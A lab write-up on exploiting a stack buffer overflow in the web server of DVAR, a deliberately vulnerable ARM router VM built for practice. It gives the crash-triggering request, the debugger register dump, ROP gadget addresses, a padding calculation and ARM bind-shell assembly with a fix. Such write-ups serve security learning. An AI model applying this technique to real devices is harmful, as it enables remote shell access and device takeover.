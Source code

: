 # DVAR - Damn Vulnerable Arm Router

## Intro

The [DVAR](http://blog.exploitlab.net/2018/01/dvar-damn-vulnerable-arm-router.html) challenge is a simple ARM VM that has a vulnerable web service running. The goal is to exploit the buffer overflow that is somewhere in that service.

## Tools and Packages

Tools I use in this challenge are:

* [radare2](https://rada.re/r/)
* gdb-multiarch
* [GEF](http://gef.readthedocs.io/)
* [Burp](https://portswigger.net/burp)
* VMware Player
* Ubuntu packages: gcc-arm-linux-androideabi, gcc-arm-linux-gnueabi
* ROP Gadget searching with [xrop](https://github.com/acama/xrop), [ropper](https://github.com/sashs/Ropper), [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
* [pwntools](http://docs.pwntools.com)
* nmap

## Bug Assessment

### Initial Set Up

I configured my `/etc/hosts` to have `dvar` hostname for the IP of the router's VM, so from now on the vulnerable router is accessed by domain `dvar` (`http://dvar/`).

The debug environment and flow include:

1. Run `gdbserver` on `dvar`: `gdbserver 0.0.0.0:8888 --attach $(pidof miniweb)`
1. Remote debug with `gdb-multiarch`: `gdb-multiarch -x ./miniweb.gef.gdb`

[miniweb.gef.gdb](miniweb.gef.gdb) is a simple GDB script that connects to target, sets breakpoints and continues execution setting everything ready for the coming payload.

### Bug Discovery

To trigger the bug you just have to submit the settings on the main `http://dvar` at button `Save Settings`. This sends a request to `http://dvar/basic.html?...` and the router web server hangs and does not complete the communication.

### Tracing and Further Assessment

By inspecting the binary (`miniweb` which I copied from the router) with Radare2 the following program flow is revealed:

1. The application forks `serveconnection()` for each connection
1. Data is `recv`ed until `\n\r\n\r` is encountered
1. The GET request is then `urldecode`d
1. `Log()` is called to fill an entry into a log file
1. A call to `vsprintf` messes up the stack - this is the vulnerable point
1. `SIGSEGV` is triggered at the `return` of `Log()`

The bug is triggered by:
    
    http://dvar/basic.html?aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaeeeebbbb

where `pc`(program counter), `lr`(link register) and `r11`(`fp` - frame pointer) registers contain user supplied data:

    ...
    $r11  : 0x65656565 ("eeee"?)
    $r12  : 0x00000024
    $sp   : 0xbeffbba8  →  0x00000000
    $lr   : 0x62626262 ("bbbb"?)
    $pc   : 0x62626262 ("bbbb"?)
    ...

By trying several inputs and checking security settings it is clear that:

* non-printable characters can be supplied - `urldecode` helps for that
* `\x00` characters cut the string and payload after that can't be read
* ASLR of the stack is enabled
* libraries have static base addresses
* stack is executable

Some difficulties I had:

* The usage of `gdb-multiarch` over simple `gdb` costs me several hours of headache.
* I had to give up `pwndbg` in favor of `GEF`

## Exploitation

The strategy is:

* Find ROP gadgets that change execution flow to the stack at controlled point:
    * load data from stack into registers
    * load `sp` into general purpose register
    * branch to stack address through general purpose register
* Run TCP bind shellcode
* Connect to shell

### ROP Chaining

I succeeded to find suitable gadgets in `libgcc_s.so.1` loaded at `0x40078000`. The reason gadgets from libraries are used and not from `miniweb` executable is because of NULL bytes - `miniweb` is loaded at lower address space and 4 byte address has two NULL bytes.

The `xrop` tool found good gadgets:

    0x4110                E8BD800F                  pop {r0, r1, r2, r3, pc}

    0x8674                E1A0200D                  mov r2, sp
    0x8678                E12FFF33                  blx r3

    0x2c48                4710                      bx   r2

One tricky moment was realizing that the length of my request IP matters and I cannot just stick a constant in [e.py](e.py):

    pad1 = cyclic(329)

The stack layout changes if the IP string length is different so I took this in account:
    
    pad1 = cyclic(341 - len(my_ip))

### Shellcode

I used the shellcode from [Azeria's TCP Bind Shell](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/). It had a bug and I had to fix it - the `execve` needed argument list with at least 1 item (the name of the started program). The problematic code was:

    adr r0, shellcode   // r0 = location of "/bin/shX"
    eor r1, r1, r1      // clear register r1. R1 = 0
    eor r2, r2, r2      // clear register r2. r2 = 0
    strb r2, [r0, #7]   // store null-byte for AF_INET
    mov r7, #11         // execve syscall number
    svc #1
    nop

which turned into:

    adr r0, shellcode   // r0 = location of "/bin/shX"
    eor r1, r1, r1      // clear register r1. R1 = 0
    push {r1}
    push {r0}
    mov r1, sp          // r1 pointing to argument list
    eor r2, r2, r2      // clear register r2. r2 = 0
    push {r2}
    strb r2, [r0, #7]   // store null-byte for AF_INET
    mov r7, #11         // execve syscall number
    svc #1
    nop

I had difficulties here with `as` making it agree with that code and not messing up the pseudo instruction `adr`.

## Scripts and Files

* [e.py](e.py) - full working exploit
* [miniweb.gef.gdb](miniweb.gef.gdb) - GDB script making faster feedback loop while testing
* [notes.md](notes.md) -  working notes

## Exploit Execution

![Exploit PoC](figures/dvar_poc.gif)

## Resources

* Practical Reverse Engineering - ch 2
* [Azeria's TCP Bind Shell](https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/)
* [Sindoni's ARM Exploitation Tutorials (Ep. 2)](https://quequero.org/2017/09/arm-exploitation-iot-episode-2/)
